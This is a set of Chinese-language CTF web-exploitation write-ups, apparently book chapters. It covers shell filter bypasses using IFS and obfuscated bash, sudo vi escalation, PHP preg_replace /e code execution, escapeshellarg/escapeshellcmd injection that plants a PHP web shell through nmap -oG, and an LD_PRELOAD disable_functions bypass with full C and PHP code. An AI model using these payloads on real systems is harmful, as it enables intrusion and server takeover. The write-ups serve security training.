"$($- 2>&1)"; "$(${_:7:1}${_:20:1})"; "$(${_:14:1}${_:47:1})"; "$(${_:10:1}${_:11:1}${_:15:1} ${_:7:16})"; ${_:30:1}${_:5:1}${_:9:1} ${_:59:1}${_:6:1}${_:5:1}${_:10:1}${_:262:1}${_:1:1}/${_:62:1}${_:6:1}${_:5:1}${_:262:1}.${_:9:1}${_:36:1}${_:9:1}
```


<!-- Imported from D:\\Book\\Web\\Chapter6\6-46.md -->
### 修改 IFS 绕过 Bash 中禁用空格


执行运行 `ls` 报错，使用 `$()` 包裹

`$(ls)` shell 将使用 `ls` 命令的输出并将其替换为你的输入

例如，如果你运行 `ls`，输出为 `file1.txt file2.txt directory1/ directory2/`

但如果你运行 `$(ls)` 则相当于运行 `file1.txt file2.txt directory1/ directory2/`

这肯定意味着存在一个名为 `blargh` 的目录


下一步应该看看这个目录后面还有什么，所以我调用了 `$(ls blargh)`

调用此命令时，出现了一个意想不到的语法错误

我尝试了其他几个命令，发现 Special 接口不允许命令之间用空格分隔

绕过方法是修改内部字段分隔符（IFS），该变量定义用于将模式分隔为标记的字符

我决定将其从空格改为 `]`

```sh
$(IFS=];b=ls]blargh;$b)
```

得到输出

```sh
flag.txt not found
```

使用 `cat` 我们运行

```sh
$(IFS=];b=cat]blargh/flag.txt;$b)
```


<!-- Imported from D:\\Book\\Web\\Chapter6\6-47.md -->
### sudo vi 提权


先检查有哪些权限

```sh
sudo -l
```

我们拥有 vi 文本编辑器的 sudo 权限，这意味着我们可以以 root 身份在任何文件上运行 vi


在这种情况下，我们使用 vi 在当前目录中创建了自己的文件并创建新 shell


提权成功！


<!-- Imported from D:\\Book\\Web\\Chapter6\6-5.md -->
### $IFS$num 代替空格绕过


通用是 Ping 的回显


通过测试发现过滤了空格以及一些符号和 flag，但是 $IFS 可以使用

$IFS 在 Linux 下表示分隔符

但是如果单纯的 cat$IFS9，bash 解释器会把整个 IFS9 当做变量名，导致输不出来结果

所以要加一个 $ 变成 $9，这里任何数字都可以绕过

连接在一起相当于在脚本中使用特定的字段分隔符并访问命令行参数中的特定字段


<!-- Imported from D:\\Book\\Web\\Chapter6\6-6.md -->
### preg_replace() /e 修饰符 RCE 绕过 foreach


打开网页给出了源码


要传参 $text 是个文件，而且文件内容是 I have……

这里可以联想到 PHP 伪协议 input，其 POST 的值是 I have…… 即可绕过（data 也可以）

$file 最后是文件包含，也是要传文件名的

联想到另一个 PHP 伪协议 filter，注释表明了一个文件，构造 payload 执行


解码拿到文件源码

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

将所有 GET 参数的“键”当作 `$re` 正则模式，“值”当作 `$str` 待处理文本，逐一调用 `complex()`

```php
foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}
```

preg_replace 用于进行正则表达式替换的函数

第一个参数是要匹配的正则表达式模式，第二个参数是用于替换的内容，第三个是要进行替换的输入字符串


这段代码的作用是：在字符串 `$str` 中查找匹配正则表达式 `($re)` 的部分，将匹配到的内容转换为小写形式

- **`/e` 修饰符**：表示将替换字符串作为 PHP 代码执行
- **`/i` 修饰符**：表示正则匹配不区分大小写

因此，`strtolower("\\1")` 会将第一个捕获组（即匹配的内容）转换为小写

```php
preg_replace(
    '/(' . $re . ')/ei',
    'strtolower("\\1")',
    $str
);

# $re = 'HELLO'
# $str = 'Hello World!'
# 输出：hello World!
```

现在再来看源代码多了个 `ei`，`e` 修饰符会导致正则表达式的替换部分 `strtolower("\\1")` 被当作 PHP 代码执行

`i` 修饰符不区分大小写，相当于 `eval('strtolower("\\1");')`

当 \\1 是我们传进去的 `{${phpinfo()}}` 时，其实就是 `eval('strtolower("{${phpinfo()}}");')`

但是我们为什么要传入 `{${phpinfo()}}` 呢？

`${phpinfo()}` 中的 `phpinfo()` 会被当作变量先执行，执行后变成 `${1}`

1 是因为 `phpinfo()` 成功执行后返回 true，而 `strtolower("{${1}}")` 又相当于空字符串

所以关键在于 preg_match 的第二个参数是先被当作变量执行了，达到命令执行的效果


上面的 **preg_replace** 语句如果直接写在程序里面，当然可以成功执行 `phpinfo()`

通过 GET 传参构造 payload，在 = 号左边传的是匹配模式，右边是要调用的函数或命令

然而传入 `.*` 却直接报错 


当非法字符为首字母时，只有点号会被替换成下划线报错，需要绕过这一步

`\S` 匹配所有非空白符不包括换行，加个 `*` 匹配多个

再跟上 `${eval($_POST[cmd])}`，再传参 `cmd=system("cat /flag");`


成功拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter6\6-7.md -->
### escapeshellarg/cmd RCE


打开网页拿到源码


传入的参数是：172.17.0.2' -v -d a=1

经过 escapeshellarg 处理后变成了 '172.17.0.2 '\\'' -v -d a=1'

即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用

经过 escapeshellcmd 处理后变成 '172.17.0.2 '\\\\'' -v -d a=1\\'

这是因为 escapeshellcmd 对 \ 以及最后那个不配对儿的引号进行了转义

最后执行的命令是 curl '172.17.0.2 '\\\\'' -v -d a=1\\'

由于中间的 \\\ 被解释为 \ 而不再是转义字符，所以后面的 ' 没有被转义，与再后面的 ' 配对儿成了一个空白连接符

即向 172.17.0.2 发起请求，POST 数据为 a=1

所以经过我们构造之后，输入的值被分割成为了三部分

第一部分就是curl的IP，为172.17.0.2\

第二部分就是两个配对的单引号 ' '

第三部分就是命令参数以及对象 -v -d a=1'

nmap 有一个参数 -oG 可以实现将命令和结果写到文件

所以我们可以控制自己的输入写入文件，这里我们可以写入一句话木马链接，也可以直接命令 cat flag

```php
?host=' <?php eval($_POST["hack"]);?> -oG hack.php '
```


记录下它生成的文件夹名


打开蚁剑远程连接


成功拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter6\6-8.md -->
### PHP 函数嵌套绕过


打开网页啥也不是


扫描后台发现 git 泄露


使用 GitHack.py 下载文件


拿到源码一顿分析，首先是过滤了伪协议，第二是匹配以字母或下划线开头的函数调用

(?R) 是递归模式，用于匹配嵌套函数调用，最后过滤了一些关键字

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

需要了解几个函数

scandir() 返回指定目录中的文件和目录的数组

localeconv() 函数返回一个包含本地数字及货币格式信息的数组，相当于 ls

current() 返回数组中当前元素的值（也可以替换为 pos()）

最后 print_r 打印出来发现 flag.php

```
print_r(scandir(current(localeconv())));
```


当然也可以直接

```php
var_dump(scandir('.'));
```


接下来先先使用 array_reverse() 反转，再接上 next() 跳到第二个即 flag.php

最后外面套一个高亮显示拿到 flag

```php
?exp=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
```


或者

```php
var_dump(file_get_contents('./f1ag.php'));
```


<!-- Imported from D:\\Book\\Web\\Chapter6\6-9.md -->
### LD_PRELOAD 环境变量提权


加密混淆，这一步因为解密网站挂了就跳过


网上找的图


使用中国蚁剑远程连接


访问别的目录报错，应该设置了 disable_function 函数


基于黑名单来实现对某些函数使用的限制


使用蚁剑的插件绕过，网不行的自己去 GitHub 上下插件


LD_PRELOAD 是一个可选的 Unix 环境变量，  包含一个或多个共享库或共享库的路径

它允许你定义在程序运行前优先加载的动态链接库，即我们可以自己生成一个动态链接库加载，以覆盖正常的函数库，也可以注入恶意程序，执行恶意命令

[原文链接](https://www.freebuf.com/articles/web/280446.html)


最后远程连接这个新木马就行了，密码一样的


当然也可以手动（以下代码均适用于 CTFHUB 的 LD_PRELOAD 一题）

```c
#include <stdlib.h>   // 包含 system(), getenv(), unsetenv() 等函数
#include <stdio.h>    // 包含标准输入输出函数，如 printf()
#include <string.h>   // 包含字符串处理函数（虽然本程序中未使用）

// payload 函数：执行系统命令，将 /readflag 的输出重定向到 /tmp/flag 文件中
void payload() {
    system("/readflag >/tmp/flag");  // 调用 shell 执行命令，读取 flag 并写入临时文件
}

// 重写的 geteuid 函数：通常用于返回有效用户ID，但此处用于恶意操作
int geteuid() {
    // 检查环境变量 LD_PRELOAD 是否存在
    if (getenv("LD_PRELOAD") == NULL) {
        // 如果 LD_PRELOAD 没有设置，返回 0，表示没有劫持动态链接库
        return 0;
    }

    // 如果设置了 LD_PRELOAD，先取消设置，避免后续影响
    unsetenv("LD_PRELOAD");

    // 执行恶意 payload，将敏感信息写入 /tmp/flag
    payload();
}
```

记得先加权限

```sh
gcc -fPIC -shared hack.c -o hack.so
```

| 部分         | 含义                                                         |
| ------------ | :----------------------------------------------------------- |
| `gcc`        | GNU C 编译器，用于编译 C 程序                                |
| `-fPIC`      | 生成位置无关代码（Position-Independent Code）这是构建共享库（`.so` 文件）所必须的选项，允许生成的代码可以被加载到任意内存地址而不出错 |
| `-shared`    | 指定生成一个共享库（`.so` 文件），而不是一个可执行文件       |
| `hack.c`     | 要编译的源文件，里面通常包含自定义的函数（如重定义 `geteuid()`） |
| `-o hack.so` | 指定输出文件名为 `hack.so`（生成的共享对象）                 |

然后上传到 `/tmp `目录下

```php
<?php
// 设置环境变量 LD_PRELOAD 为 /tmp/hack.so
// 这样在调用某些系统函数时会优先加载 /tmp/hack.so 中的函数实现（如劫持 geteuid）
putenv("LD_PRELOAD=/tmp/hack.so");

// 触发某些底层 C 函数调用（如 geteuid）的方法之一
// 此处调用 error_log 尽管参数是空的，但有可能触发内部系统调用，从而触发 hack.so 中的恶意函数
error_log("", 1, "", "");

// 输出提示信息，说明 PHP 脚本执行完毕
echo "ok";
?>
```

上传文件


s

访问文件


这时候就可以拿到 flag 了 


